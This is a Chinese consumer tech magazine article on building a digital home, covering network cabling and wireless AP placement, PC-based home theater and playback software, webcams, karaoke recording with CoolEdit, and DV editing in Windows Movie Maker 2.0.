最简单的网络设计思想是每个房间都使用一条网线通往客厅。由于网线排布时不需要埋入墙壁，而是直接沿着地面贴着墙角的最近路线行走，因此不用担心铺设难度。但是需要注意的是，网线尽量不要与电线靠得太近，否则涡流效应多少会影响网络的稳定性。

尽管上述方案可适用于大多数用户，但是也并非十全十美。假设三房的环境下，用户使用 Cable 有线通上网，按照上述布线方式并配合宽带路由器使用，那么三个用户将有同一个 IP 地址。最理想的方案，是每个房间铺设两条网线到客厅，这样就能方便使用双网卡，其中一个网卡连接路由器，另一个网卡连接 Cable Modem。对于那些不使用宽带路由器的用户而言，更有必要采用这种方式（见图 1）。

### 2. 如何铺设才美观：布线位置与接口

在进行新房装修时，建议大家尽可能把网线布置在踢脚板后面的墙角，并且在墙插、门口或穿墙部位等处预埋一小截线管通到踢脚板背后，线管中间不可以有死弯，管内留好引线铁丝，等到地板铺完但尚未安装踢脚板时再把网线穿进去。这样在安装好踢脚板后就不会看到任何走线的痕迹，保证最佳的美观性。

更为重要的是，由于铺地板是在装修工程的最后阶段进行，可以有效地防止在漫长的施工期间对网线造成意外损伤。此外，这种布线方式将尽可能减少切断地板下的木龙骨，从而提高了施工质量，减少甚至避免了实木地板一踩就响的可能。

解决网线铺设的问题后，我们还要处理网线的水晶接头。一般装修公司总是会把这个皮球踢给网络公司，而这恰恰不是网络公司所负责的内容，因此只好自力更生。最简单的做法莫过于直接从墙壁钻一个洞，然后预留大约 2～3 米，并使用八芯钳安装水晶接头。但是这样做很影响美观性，特别是在没有家具遮挡的情况下。建议大家安装一个网络面板，一般电脑城的耗材店都能买到，然后将网线中的八条电芯分别对照颜色连接到网络面板上。在实际使用时，只要再拿出一根网线连接面板与终端网卡即可，美观又方便。

#### 小贴士：切莫附带电话线

标准网线内有八根电芯，而实际传输只有四根。为此，不少装修公司直接将网线取代电话线。虽然这样完全是可行的，但是会给后期连接水晶头带来很多不便，而且网络稳定性与速度肯定受到影响，特别是在距离较长的情况下。建议大家将网线与电话线分开排布。

### 3. 相辅相成：与无线网络结合使用

目前，无线网络在家庭中应用也比较广泛，在家里安装一个无线AP就能让笔记本以及PDA轻松上网。应当看到的是，在大多数情况下，无线网络还是会与有线网络结合使用。以大多数无线宽带路由器为例，尽管它们已经具备了无线路由功能，但还是允许连接3～8个100Mbps的有线客户端。此时，使用无线AP的有线客户端连接各个房间的台式机，然后笔记本和PDA通过WIFI无线上网。我们不建议台式机也使用无线网络，毕竟局域网传输中，无线网络的速度还略显不够。在进行局域网游戏、文件传输的过程中，100Mbps有线网络的速度远胜于无线网络，而且更加稳定。

无线网络部署更加讲究位置的空间感，而不是简单地连接网线。对于最常见的两房两厅户型，无线路由器（俗称AP）的摆放只有恰到好处才能保证所有的房间都能正常上网。无线信号从本质上来说是一种射频信号，存在着干扰问题，而天线又是一种方向性元件，它只能往特定的方向辐射高强度能量，因此无线AP的摆放位置，在很大程度上将影响到射频场的效果，从而影响到信号质量及信号强度。为此，无线AP的摆放应尽量选择开阔、无障碍物的位置，一般而言“居中”是获得最佳信号覆盖效果的位置（见图2）。

从具体实例来看，100平方米左右的户型一般为两室两厅，在布局时将无线AP放置在客厅或是几个房间的交汇口，此时无线网络效果最理想。如果放置在其他房间，则面对联系转角的其它房间，信号多半会稍差一些，甚至无法接收到任何信号。

### 4. 多声道音箱与USB延长：装修时最容易忽视的细节

多声道音箱在3D游戏中的作用的确十分明显。很多高级玩家依靠耳朵来辨别敌人位置，因此一块性能优秀的声卡和表现力极强的音箱是不可缺少的。即便有EAX HD等技术的帮助，物理音频定位还是非常重要，多声道音箱发挥着巨大作用。很多玩家都极度渴望多声道音箱，只是错综复杂的连线让这一切变得遥远。为了营造更好的音场效果，后置音箱与前置音箱必须保持足够的距离，而这对于家庭环境来说较为困难，很少会有人愿意把家里弄得乱七八糟。因此，我们建议大家在装修房间时事先留下后路。以典型的5.1声道为例，可以将前置声道和后置声道置于房屋的四个角落，所有的音频线全部埋入墙壁内。实现这一步并不困难，甚至不需要穿PVC管子，也不会影响美观性。特别是一些体积较小的卫星音箱，完全可以嵌在墙壁内，不仅隐蔽而且还能避免谐振。除了多声道音箱，操控设备也是需要提前考虑到的。幸运的是，目前USB接口适用于键盘、鼠标、PC手柄、遥杆等设备，因此只要在需要的位置预留USB接口即可。为了得到更多的USB接口，使用USB Hub是很好的解决方案。需要注意的是，USB Hub分为有源与无源两种，前者因为使用独立的变压器供电，因此可以顺利接驳多个大功耗的USB外设，而且能够使用长距离的延长线。而后者只能依靠USB本身提供500mA的电力，只能应用于USB键盘鼠标等低功耗设备。建议购买有源USB Hub，然后与主板USB接口相连的数据线埋在地板下面。略微有些可惜的是，现在网线与电话线面板都很容易找到，而USB接口面板就难以寻觅了，只能随便找一个空心面板来连接USB Hub。

## 二、架起PC与AV的桥梁：享受网络家庭影院

在传统概念中，多媒体PC总是与AV视听设备格格不入，甚至不少专业AV发烧友还会对PC声卡与音响嗤之以鼻，而PC显示器那狭小的可视面积也让其难以走出近距离应用的模式。不过，如果你永远停留在传统观念中，那么这种荒唐的禁锢会让你变得“彻底落伍”。谁说DVD已经是最清晰的视频？谁说PC只能在显示器上观看？谁说只有LD才能让人HiFi？一起来看看我们的数字家庭影院吧。

### 1. 硬件实现方式：展开想象的天空

尽管PC与AV设备存在不小的代沟，但是只要我们在硬件设备上加以弥补，完全可以将各种AV影音设备很好地应用在电脑上。

#### (1) PC硬件配置：怎样才够味

视频解码曾经是显卡的发展方向之一，当年VCD和DVD解压甚至都依赖专业解压卡来实现。不过，因为编码技术发展的滞后，显卡的这些相关技术特性也逐渐淡出视野。不得不指出的是，即便有了强大的CPU，传统MPEG4和HDTV解码依然会占用大量系统资源，此时用显卡进行解码加速十分必要。如今的主流显卡都实现了MPEG4编码补偿，即以GPU来实现部分解码过程。但此时仅仅是数据流的渲染处理，并未在算法上取代CPU，因此更多的贡献在于提高画质而非降低CPU占用率。一般情况下，实现DVD解码与RMVB以及DivX解码的配置要求差不多，CPU主频建议至少在1.5GHz以上，内存容量至少512MB。

与MPEG2硬件加速解码相比，或许实现WMV HD或是H.264等HDTV硬件解码补偿更为重要。WMV本身就是MPEG4的一种分支，微软甚至已经推出高分辨率版本的WMV HD。如果大家体验过1600 × 1200分辨率的WMV HD格式，肯定会为其惊人的效果所折服。但是，WMV HD对于硬件的要求实在太高，至少需要2GHz以上的Pentium4处理器配合128MB独立显存的显卡，如果要达到最佳效果，CPU频率和内存以及显卡都必须全面提高。此外，部分显卡支持WMV HD硬件加速，譬如GeForce 6/7系列的PureVideo或是S3 GammaChrome系列的Chromotion2技术等（见图3）。

#### （2）无线点播影院：新时代的连接方法

微软的Mira无线显示器已经推出多年，不过其普及力度并不够，我们也不指望这项技术能带来任何变化。相对而言，如今的WIFI无线网络更为现实，能很好地解决有线传输中的不便。一般情况下，大屏幕电视机总是放在客厅，而PC放在书房或者卧室中，连接起来十分不便。

通过无线网络，我们可以很轻松地解决这一问题，其核心思路是为大屏幕电视机配备一台主机，然后通过无线网络与PC相连。一台没有显示器PC价格不超过2000元，只要能够保证视频回放速度即可，相比于上万元的LCD与PDP，其花费并不算很大。无论是AP无线路由器还是点对点的无线网卡模式，这台配有主机的电视机都可以很方便地调用PC硬盘中的任何资源，甚至实现独立上网等应用。更为重要的是，此时可以直接接入Internet，而目前宽带所提供的视频点播已经非常普及，这也是真正意义上的无线网络影院。与此同时，各种丰富的多媒体音频资源也可以轻松共享，将MP3和APE放在AV功放中，这种美妙的感受只有身临其境才能充分体验。

#### （3）家庭影院：投影仪打造大屏幕

人的欲望是无止境的，在大屏幕彩电仍然无法满足我们的眼球时，不妨跳出传统思维，使用投影仪来看电影。投影仪并非商务及教育领域的专利，家庭用户同样可以使用它来组建属于自己的家庭影院。面向家用市场的投影仪价格并不贵，比同样尺寸的背投以及液晶电视便宜得多，而且画面效果相当不错，更能够节省宝贵的居室空间。

目前主流投影仪配有D-Sub、S-Video端子、AV端子、RCA输入，可以很方便地连接VCD、DVD、电视机、电脑及其相关的视频设备。为了进一步节省成本，大家可以使用录像机连接有线电视同轴线缆，通过录像机的AV视频输出与投影仪协调工作，省去对电视机的投资。通过录像机的遥控器，一样能够方便地控制频道，而DVD影碟机与电脑分别通过S-Video以及D-Sub接口连接投影仪，以较低的成本构建了功能十分强大的家庭影院。

投影仪的可视面积几乎能达到50寸左右，而且通过巧妙的装璜设计将其悬挂于墙壁之上，前方的屏幕也采用拉幕式，几乎不需要占据任何空间。当然，如果能够为投影仪配上一台带有电视卡的PC主机，应用体验将会更加让人满意，并且与网络应用形成最佳互动。

#### （4）大屏幕电视机：LCD并非唯一的选择

除了昂贵的LCD、背投电视机，PDP等离子之外，带有VGA接口的高清CRT电视机其实是最佳选择，用不多的花费就能实现十分理想的大屏幕输出效果，非常实惠。凭借VGA接口以及对1024 × 768分辨率的支持，应该说配合MiniPC准系统非常合适。此时，高清CRT电视机完全可以当成MiniPC显示器来使用，在接口接驳上和普通显示器没有任何区别。

所谓高清电视机，并不仅仅是信号接受标准，因为电视机内置的转换电路完全可以实现接口向下兼容，因此真正的衡量标准除了常见的1080i和720p标准之外，能够提供VGA接口也十分关键。与普通AV或是S-Video视频输入相比，使用VGA接口将会带来更好的画质，而且显卡输出设置更高的分辨率将会显著提升画面效果，这与视频输入固定显示精度是完全不同的（见图4）。目前，市场上高清电视的VGA接口大多只能实现800 × 600分辨率，少数低端产品甚至只能显示640 × 480，整体效果将大打折扣。如果资金充裕的话，可以考虑支持1024 × 768分辨率的产品，34英寸的电视机价格约在3000元左右。

> 小贴士：实现AV音响与PC互连的简易方法
如果大家在装修房屋时能够考虑好空间布局，完全可以预留一个通道给AV线。AV音响中的功放一般使用莲花型的AV接口，而PC声卡使用3.5mm端子。在需要使用时，购买一条长度足够的3.5mm转左右声道的AV线，分别连接声卡与AV功放。虽说模拟音频的质量稍打折扣，但是丰富的音乐资源以及更为重视音效的使用关键应该能够得到满足。

> 小贴士：无线设备操控大屏幕电视
大屏幕电视一般需要远距离观看，使用无线设备进行操控自然是最合适的。无线鼠标与无线键盘是最容易想到的设备，而希望节省投资的用户也可以购买红外线的PC遥控器，完全可以模拟鼠标操作与相应的键盘快捷键。除此之外，诸如蓝牙适配器结合蓝牙手机也可以模拟鼠标操作。

### 2. 软件应用指南：网络家庭影院锦上添花

完成硬件设备的平台组建之后，我们还需要软件的辅助。如今视频与音频技术已经十分成熟，各种最新的编码也层出不穷，用户只要做好充分准备，就可以使用最便利的方法充分享受网络家庭影院。

#### （1）媒体回放解决方案：影音风暴与Foobar 2000

DVD已经不是我们的最佳选择，清晰度并不逊色的MPEG4技术有着更好的压缩比。MPEG4有着很多分支，包括DivX、XviD、3ivx、MP4、WMV等等，再加上复合型音频OGG以及AC3等结合编码，很多用户会发现辛苦下载的视频无法播放，这种情况下，建议大家试用最新版本的影音风暴。影音风暴号称万能播放器，采用NSIS封装，具有稳定的安装、卸载、维护和修复功能，适合对安装、卸载和维护有着比较高稳定性要求的用户，和不想制作自己专用解码包的用户。由于这种解码器外挂启动的方式，使得影音风暴的兼容性也十分好。

在音频回放方面，影音风暴的兼容性表现十分出色，但是其音效模式略少一些，因此推荐大家使用Foobar 2000。Foobar虽然是音频播放领域后起之秀，没有优美的界面也没有像Winamp那样多的插件支持，但是其自带的内核解码功能足可媲美任何音频播放软件，而且拥有内存占用少、支持格式多和完美音效的特点。在音质上，Foobar确实要优于Winamp，自然也比影音风暴或者Windows Media Player好很多。如果你是一个音乐发烧友的话，Foobar是不错的选择。

#### （2）网络电影拖回家：流媒体如何应用

通过鼠标点击网页上的链接来打开流媒体，这似乎人人都会，但是有没有办法能做到边看边下载或是将地址隐藏的流媒体直接保存到硬盘上？VLC Media Player可以对流媒体文件边看边下载，而且可以播放未下载完的网络视频。这样一来，大家可以先下载部分网络视频，看看影片是否清晰、精彩，再选择是否完整下载，从而大大节省了时间和精力。

VLC Media Player的界面非常简单，只有几个操作按钮，看图标即可明白用途。需要注意的是，如果网络视频文件有字幕，需要在Setting菜单中将“Subtitles File（字幕文件）”前的复选框中打勾，然后在弹出的对话框中选择字幕文件。设置完成后，点击OK按钮回到主界面，即可很方便地同时保存字幕文件。由于VLC Media Player支持UDP/RTP、HTTP/FTP/MMS、RTSP等网络协议的网络视频，因此使用范围比较广。

对于采用HTTP、FTP等协议的流媒体，使用VLC Media Player也可以直接播放。唯一遗憾的是，倘若使用HiDownload多线程下载到一半后出现问题，目前任何软件也无法播放。事实上，只要流媒体是采用单线程下载，就可以利用VLC Media Player来播放（见图5）。唯一遗憾的是，倘若使用HiDownload多线程下载到一半后出现问题，目前任何软件也无法播放。

无论用什么软件下载流媒体，都必须知道它在网络上的具体地址，但是网络上有许多流媒体的准确地址无法通过网页获知。HiDownload软件本身具备“嗅探”功能，可以检测出目前所有主流应用的在线流媒体协议。使用“右键”→“复制快捷方式”，将流媒体文件的链接复制到剪贴板，然后选择工具栏中第一个“新建”图标，此时会弹出一个对话框，然后分别输入流媒体链接、下载保存路径以及线程数（见图6）。

如果无法获得下载地址，可以先使用在线方式播放流媒体。经过一段时间后，HiDownload会自动检测出流媒体的链接位置，然后添加到下载列表。HiDownload的操作方法与Flashget很相似，所不同的是这里换成MMS或者RSTP协议。

#### （3）快速点播方式：建立自己的媒体库

播放软件里面的“媒体库”可以方便地管理电脑中的多媒体文件，其原理便是自己搜索硬盘中的影音文件。在这里，可以方便地将机器上面的媒体文件进行归类，将大大便于以后的文件播放。特别要提出的是自动播放列表功能，大家可以在媒体中心定义文件等级。自动播放列表将会自动排列出符合规律的文件，它还给出了很多默认设置，包括4～5星级别的歌曲、最近没有听过的歌曲、在深夜听的歌曲、在工作日听的歌曲、在周末听的歌曲等等。在Real10这款媒体播放软件中，大家也可以找到相应的功能。

如果大家不喜欢媒体库的方式，也可以自己制作一个网页点播。很多人的硬盘中都收集了不少视频文件，但是，要在错综复杂的目录中寻找它们可不是一件简单的事情。此时，可以考虑使用Realproducer制作一个简易的点播网页，可能会比媒体库更加方便。在Realproducer中点击工具菜单下的“创建网页”，选择需要创建的RM/RMVB文件对象。随后，Realproducer会询问创建“弹出式播放器”还是“嵌入式播放器”，大家可以根据需要选择，建议使用后者，因为启动速度更快。

我们还可以定制播放器的界面，一般选择“标准播放器”即可。经过几个简单的步骤之后，我们的HTML文件就生成了。以后要查找时只需要打开这张网页，就可以在一目了然的界面中进行点击播放。

#### 小贴士：解决板载声卡造成跳帧

早期的板载声卡占用较多的系统资源，而且与之相配的CPU性能较为一般，因此在播放MPEG4时容易出现断断续续的跳帧现象。对于这种情况，最简单的解决方法便是降低音频采样率，各种播放软件可以很方便地在主界面实现该功能。一般建议将Frequency设定默认值的一半，并且把声音降低为8 Bit。尽管这样做会令音频效果降低，但是保证视频流畅度更为重要。

#### 字幕文件如何使用

现在很多DVDRip都带有字幕，但是很多读者反映安装VobSub或是影音风暴之后还是无法使用，这主要是因为大家没有注意文件名和存放路径的问题。字幕文件的扩展名可以为.idx+ 或者.sub等等，为了让VobSub找到字幕文件，必须将其与AVI文件放在同一目录中，并且保证主文件名一致。

#### 实现双字幕播放

很多用户都很喜欢中英文双字幕播放，而VobSub只能支持一种字幕语言。不过，使用DivX Subtitle Displayer完全可以实现这一愿望。事实上，DivX Subtitle Displayer也只能支持一种字幕语言，不过它可以兼容VobSub。只要在使用VobSub显示中文字幕的同时，打开DivX Subtitle Displayer，选择另一种语言的字幕即可，两者完全不会冲突，而且默认设置下两个字幕不会重叠。此外，DivX Subtitle Displayer允许调整字幕的文字大小与显示位置，用户可以根据自己的喜好来设定。

#### 显卡双头输出的细节设定

一般而言，高清电视机所能承受的分辨率总是低于显示器，在这种不得已的情况下，两台显示器在克隆模式下势必会有不同的分辨率。经过测试，发现ATI显卡的催化剂驱动在Windows 9X/ME下无法实现分辨率异步，而在Windows 2K/XP/2K3和Vista下不存在这种现象，因此建议ATI显卡用户不要使用老的操作系统。

此外，使用nVIDIA显卡组建双头输出时，其nView功能不会自动将分辨率较低的屏幕进行缩放，而是只能显示部分功能。这样做是为了方便显示器窗口交换，而且用户可以通过鼠标来移动分辨率较低的显示器屏幕。不过，有时会让人感觉很不方便，建议大家在nView设置菜单中打开“视频锁”功能，就可以禁止鼠标移动显示器屏幕。

## 三、数字家庭小点缀：百万像素摄像头

尽管DV已经推出多年，但是其家庭普及度远远不及DC。究其原因，过高的价格以及薄弱的电池续航时间是最大的弊病。其实，很多情况下我们所需要的仅仅是室内拍摄，或是通过网络进行视频沟通，一款PC摄像头就完全足矣。如果说以往的摄像头存在清晰度太低以及流畅度差劲的弊病，那么如今兴起的百万像素摄像头绝对值得大家关注，这可谓是点缀数字家庭的小秘方——花费不大却非常有趣。

### 1. 百万像素：改变你对摄像头的传统观念

像素级别是造成不同产品价格差距悬殊的重要原因，同时也是衡量摄像头性能的重要指标之一。一般来说，像素越高的产品其图像品质越好。几年前，30万级别像素的产品是市场主流，偶尔还能看到少数采用10万像素CMOS感光器的产品，其图像质量较差，被很多网友形象地比喻为“伸手不见五指”。毫无疑问，如果需要进行视频电话应用，30万像素是最低的要求，在需要拍摄一些短片时，百万级像素才真正有意义。

对于以网络视频应用为主的用户，总是有网络传输对视频质量要求不高的想法，但如今得彻底改变了。以目前流行的130万像素摄像头为例，同样是传输640 × 480分辨率画面，就是明显超越48万像素的产品。究其原因，感光器的性能提升是关键。对于摄像头而言，感光器的要素不仅仅是像素，诸如感光器面积和插值计算方法等都非常重要。130万像素摄像头可谓是新一代产品，更高端的感光器结合全新的控制芯片，综合表现自然有着很大的优势。在平日的小片段拍摄中，130万像素摄像头所能捕获的1280 × 960分辨率更是对提升整体效果有着很大的帮助（见图7）。

很多用户会将百万像素摄像头与高端手机上的200万像素摄像头相比较，而结果却是标称像素低的PC摄像头在画质上更胜一筹。其实，手机上所谓的200万像素仅仅是静态照片拍摄，其动态像素和百万像素的PC摄像头是一样的。更为关键的是，受限于手机狭小的空间体积，其摄像头一般采用小面积的感光器，而且控制芯片是高集成产品，因此实际亮度表现非常逊色。在与百万像素的PC摄像头对比时，自然处于明显下风。

### 2. 接口方式：流畅度的秘密

对于想要视频采集的用户，必须关注摄像头的接口。限于USB 1.1带宽的不足（只有12Mbps），大多数USB接口的摄像头都只能进行15fps的视频应用，此时即便分辨率能够维持在640 × 480之下，其效果还是略有欠缺，至少感觉不是很流畅。很多用户抱怨在宽带网上视频电话仍然不流畅，其中一部分原因就是USB 1.1接口的带宽不足，而不完全是网络带宽的责任。

当然，很多先进编码技术的出现，能够略微缓解USB 1.1接口摄像头在视频电话时不流畅的问题，但此时是以牺牲画质为代价的。值得注意的是，目前市场上的新一代百万像素摄像头都支持USB 2.0接口，而USB 2.0的带宽为480Mbps，足以满足大数据量的视频传输需求。

## # 数码大玩家

### 3. 让你在镜头前更靓一点：摄像头设置技巧

安装好摄像头驱动之后，建议大家不要马上使用，否则很容易感觉色彩不准甚至亮度表现不佳。要想得到清晰的画面，不仅仅是由像素所决定的图像精度，有时候亮度与色彩表现也十分重要。USB摄像头使用Twain界面，大家可以在软件中调用摄像头的设置选项，并且调节一些相应的参数。

摄像头设置中有RGB24和I420色彩空间/压缩模式，一般来说RGB24的色彩最好，而且不会加大数据传输量，不用担心造成丢帧。此外，亮度调节与色彩条件十分重要，建议大家在昏暗的室内适当提高亮度，人物头像会看起来更加清爽。随后，需要仔细调节白平衡选项，如果觉得看起来太黑，可以提高蓝色部分，同时降低锐度也可以使画面改善一些细节，整体效果会更为理想。调节摄像头的视频参数并不困难，关键是要耐心仔细，特别是白平衡调节与色调和锐度的平衡关系要掌握好，一般需要配合使用，才能令画面看起来更靓一点。

#### 小贴士：切莫忽视调焦功能

调焦功能是摄像头不可忽视的重要指标之一，一般都应该具备物理调焦功能，这样就能手动调节摄像头的焦距，尽量得到最清晰的图像。当然，少数入门级低端产品可能不具备调焦功能，此时对中远距离视频捕捉基本上没有影响，但是近距离视频捕捉就会相当麻烦。此外，调焦速度也十分关键，毕竟被摄物体不可能一直静止。如果摄像头在拍摄移动画面时响应速度很慢，会令用户感觉十分不爽，因此强烈建议大家在购买时试验一下，这也是很多消费者容易忽视的地方。

#### 小心像素陷阱

像素级别是造成不同产品价格差距悬殊的重要原因，但是作为一项并不直观的技术指标，部分厂商竟然采用一些文字游戏来迷惑消费者。通过软件插值，一些低像素的CMOS摄像头堂而皇之地标称为130万像素，对于这种欺诈现象一定得格外小心。

## 四、灌录个人原声大碟

组建好自己的数字家庭之后，精彩的实际应用更加让人期待。比如制作一张属于自己的原声大碟，这会带来非常特别的感受。在做到这一点，只要给电脑配上一个麦克风，一切都将轻而易举。在多款软件的配合下，我们可以从原版MTV中截取背景音乐，然后在CoolEdit的帮助下实现动听的歌声，最后利用合成输出水到渠成。

### 1. 提取MTV与CD中的音频信息

毫无疑问，仅仅用清唱进行录音，不仅对歌唱者的要求太高，效果也略显单调。为了达到更加出色的效果，强烈建议大家从CD或者MTV提取背景音乐、去除原唱，这样能让个人原声CD听起来更为动听。在去除原唱时，我们需要调用相关的应用软件，不过大多数这类音频软件无法直接识别MTV或者CD，因此必须先将它们转换成兼容性最佳的WAV格式。MTV采用DAT格式，大家可以使用试用版豪杰超级音频工具中的MP3格式转换器来进行转换。添加DAT视频文件之后，选择WAV编码方式，然后制定输出路径即可。对于CD而言，其转换过程更为简单，只需要一款普通抓轨软件即可，推荐使用Easy cd-da Extractor。

### 2. 提取背景音乐并去除原唱

做到这一步有一定的难度，因为这里牵涉到一些音频处理。不过，DART Karaoke Author的出现让我们大大简化了操作步骤，从而不需要用到CoolEdit等复杂的音轨编辑软件，而且效率也成倍地提高。DART Karaoke Author是一款专门用于消除歌曲中人声原唱的工具软件。DART Karaoke Author默认打开操作向导，不过这个向导并不适合去除原唱，而是专门用于歌词合成。取消向导之后，点击“声音文件”菜单下的“打开”命令，并选择刚才转换后的WAV文件。此时，DART Karaoke Author的主窗口显示相关波形，用鼠标拖曳选中一段波形之后，我们就可以针对这一段进行独立操作。

点击工具栏中的“消除原唱”按钮，然后在DeVocal Parameters（消声参数）中，系统提供了Attenuation（衰减度）、Bass Retrieval（低音补偿）和Output（输出级别）三种参数供用户进行设置（见图8）。由于这里只有三个参数，因此调节起来并不困难，而且大家可以通过下方的“试听结果”按钮实时检验效果。由于歌曲中的原唱声音量有所起伏，建议大家根据实际情况，多次选中相应部分，分为多段进行处理，这样虽然麻烦一些，但是可以达到更加出色的效果。

### 3. 音频修饰与混合音轨

打开麦克风，在VCD机器中播放MTV，使用CoolEdit进行跟唱录音就能完全录制下来你的歌声，建议采用WAV格式。但是，这样还无法达到完美境界，由于话筒质量和声卡采样等原因，录音里会夹杂一定的噪音。

首先，在Cooledit中打开刚才处理过的WAV音频文件，把波形放大后将噪音区内波形最平稳且最长的一段选中（一般为没有音乐信号的间隔处）。选择菜单效果→噪音消除→降噪器，此时会弹出降噪器的工作面。根据经验，一般可以将界面中Snapshots?in?profile（采样快照）的参数改为800，FFT?Size的数值改为8192，Precision?Factor（精度因素）的数值改为5，Smoothing?Amount（平滑总量）的数值改为5左右，这样可以达到比较好的效果。改好各参数后，点击噪音采样按钮，几秒后出现噪音样本的轮廓图（见图9）。单击确定按钮之后，CoolEdit开始执行噪音去除，并实时显示在波形图中。此外，大家还可以执行菜单中的效果→DirectX →WavesC4，这一插件能够润色音频，具体的参数需要耐心调节。

当处理好清唱的WAV音频之后，就可以与背景音乐进行混合。由于在先前录制时已经根据MTV或者CD的进度歌唱，因此对其它的问題基本上无需考虑。首先选中清唱WAV音频的所有波形，单击右键，选择“插入到多轨”，打开背景音乐之后，对其进行同样的操作（见图10）。然后，点击左上角的长方形按钮进入多轨界面，并依次单击菜单中的编辑→混缩到文件→全部波形，我们将得到一个混合后的音轨，并将其另存为一个WAV文件。

得到编辑好的WAV音频之后，接下来可以使用TMPGEnc这款著名的MPEG编码软件。在编码过程中，可以分别选择音频与视频源，因此既可以选择原版MTV中的画面，也可以使用自己DV拍摄的片段。TMPGEnc支持MPEG1与MPEG2，配合Nero就能轻松制作个人VCD与DVD。

## 五、视频编辑并不难：简易DV视频后期处理方案

当DC逐渐普及之后，很多爱好者又将眼光转向了更加高档的DV。DV在家庭聚会、婚礼、旅游、生活记录等场合非常实用，已经逐渐成为一种时尚。与传统的模拟式摄像机相比，DV可以避免因存储介质磨损而导致的画质受损。更加重要的，当DV与PC进行无缝链接之后，用户可以为各种影片寻找更加合理的后期处理与存储方案。

### 1. DV后期处理软件的选择

不可否认，光彩耀眼的DV始终难以回避后期处理的难题。尽管数字化存储的IEEE1394模式已经很大程度上解决视频采集的难题，但是后期处理的复杂性依旧没有得到根本简化。由于DV的数据量大得惊人，未压缩模式下达到22MB/s左右，因此其后期处理的复杂程度可想而知。

#### （1）易用性DV后期处理视频软件

正是因为上述这些不利因素，针对DV后期处理的视频软件寥寥无几，与种类繁多的图像处理软件形成鲜明反差。更加令人不解的是，部分功能强大的软件在易用性方面差强人意，其中最典型的代表莫过于Adobe Premiere。通过第三方插件的支持，Premiere确实表现出无与伦比的优势。然而普通用户的需求与专业用户并不相同，以最简单的方式美化视频进而输出才是解决之道。

另一方面，目前少数几款在易用性方面有所突破的软件没有得到大规模普及。品尼高的StudioDV系列广受好评，但是价格不菲的视频卡与软件价格令人望而却步。至于Cyberlink以及InterVideo的产品，在功能上又无法令人完全满意。或许还有部分资深DV用户会想到Sonic Foundry的Vegas 7.0，它在易用型、视频编辑功能等方面毫不逊色于任何产品，而且丰富的第三方插件让Vegas 7.0如虎添翼，成为很多视频玩家的首选。但是，Vegas 7.0依旧不是入门级用户的最佳选择，甚至不少用户反应其操作模式比Adobe Premiere更为难以掌握。

#### （2）Windows Movie Maker 2.0点燃希望

自从Windows Me操作系统以来，微软公司开始逐渐强化Windows本身在影音文件制作方面的能力，用户仅仅通过Windows Me默认的工具软件Movie Maker也可以完成一定程度的影音制作。不过，第一版的Movie Maker毫无特色，不能得到用户的欢心，所以几乎没有什么人留意。时隔两年多，微软又于前不久推出新版本Movie Maker 2.0，并在其官方网站的Windows Update页面提供Windows XP用户免费下载升级，满足了一般家庭用户制作较高水准影片的需求。

Movie Maker 2.0是一个一站式的影音制作工具，从捕获、编辑到输出一气呵成。虽然它在功能上还无法与Adobe Premiere、Vegas等专业软件相提并论，但对于普通家庭用户来说，其易用性和实用性确实值得称赞。

#### （3）Windows Movie Maker 2.0 界面概览

在 Windows Movie Maker 2.0 中，除了包括 Windows 标准窗口的一些组件之外，主要包括了收藏栏、工作区、预览框和媒体管理区，其中收藏栏主要用于管理图片或电影文件，确定电影文件的生成位置；工作区主要用于对当前打开或导入的图像文件进行简单调整；在预览框中可以对正在编辑的电影文件进行预览；媒体管理区则可以建立一些关键帧，以便用户从总体上对正在编辑的电影文件进行控制（见图11）。

### 2. Movie Maker 的视频采集与编辑

Movie Maker 的视频后期处理十分简洁，分为视频采集、视频剪辑以及视频特效应用这三个步骤。

#### （1）视频采集

首先将 DV 与计算机上的 IEEE1394 接口连接，然后在 Movie Maker 2.0 左边的任务栏里面选择“从视频设备捕获”。如果你的计算机还安装了视频卡或者其它视频捕获设备，可单击“更改设备”来选择 DV 捕获设备进行录制。确认捕获设备之后，我们需要设置文件名以及存储路径。在此要提醒大家，存储路径所在的分区必须留有足够的磁盘空间，建议控制在 8GB 以上。随后，Movie Maker 2.0 会要求大家确定视频质量，此时应该使用“数字设备格式（DV - AVI）”选项。一般而言，DV 在视频拍摄时总是不太连贯，其中会有很多空片。为了有机地进行串连，也便于自己识别，这种情况下我们将捕获方法设定为“手动捕获部分磁带”。捕获时间的控制将非常方便，直接通过预览窗口的下方按钮便可以实现。

#### （2）视频剪辑

每次向操作区加入视频情节时，都可以根据需求任意将它放置在已加入的其它视频情节的前后。分多次拖入操作区的多个视频情节，在操作区会自动形成连续的画面；而如果使用的素材是按照预定顺序导入或拖入素材区的，可以全部选中，并同时将它们拖入操作区。当视频采集完毕，中间的“收藏”窗口就会显示出选中视频段的剪辑，并自动分成许多段，可以方便地在右边的监视器里预览这些剪辑（见图12）。

“收藏”窗口下面是“时间线”，标示将要建立的影片，从 00 秒开始。大家可以按照设想的情节，把上面“收藏”的视频剪辑按照需求拖入时间线中，准备进行编辑。把素材剪裁得差不多后，可以从头到尾看一次，只要内容符合要求，就可以为各个剪辑之间加入各种过场，如片头、效果、过渡等等。把蓝色的标杆拖动到要加入过场的剪辑之间，然后点击“2.编辑电影”里面的“查看视频过渡”，中间会出现许多模板，双击模板可以在监视器上预览效果。如果觉得满意，便可以在图标上面点击右键，选择“添加到时间线”即可完成。在编辑视频时，通常还需要对片头和片尾加以渲染，以免显得过于突兀。一般而言，可以通过向电影添加基于文本的信息来增强其效果，包括电影片名、作者姓名、日期之类的信息。除了更改片头动画效果外，还可以更改片头或片尾的外观，这决定了片头或片尾在电影中的显示方式。在电影中添加片头或片尾时，请执行以下操作：

- ★ 选择在电影中要显示片头的位置
- ★ 输入片头文本
- ★ 选择片头的动画样式
- ★ 选择片头的字体和颜色
- ★ 将片头添加到电影中

#### （3）视频特效

Movie Maker 2.0 的转场特效非常不错，其效果设置可以与不少专业级软件媲美，而且使用方便。首先，要将时间线的光标拖到某一个片段的最后位置，然后在过渡效果的图标上单击鼠标右键，选择“添加到时间线”。过渡效果会被 Movie Maker 2.0 自动添加到光标所在的片段与片段之间。为了进一步丰富效果，Movie Maker 2.0 预置了 60 种转场效果，大家可以在监视窗口中预览这些转场和滤镜。唯一有些遗憾的是，Movie Maker 2.0 中的所有转场只能直接使用，用户不能对其进行编辑，这也是易用性视频编辑处理软件的普遍特色。

# 动静两相宜 融合得人心——深入混合型DC与DV数码影像设备

文 / 阿亮

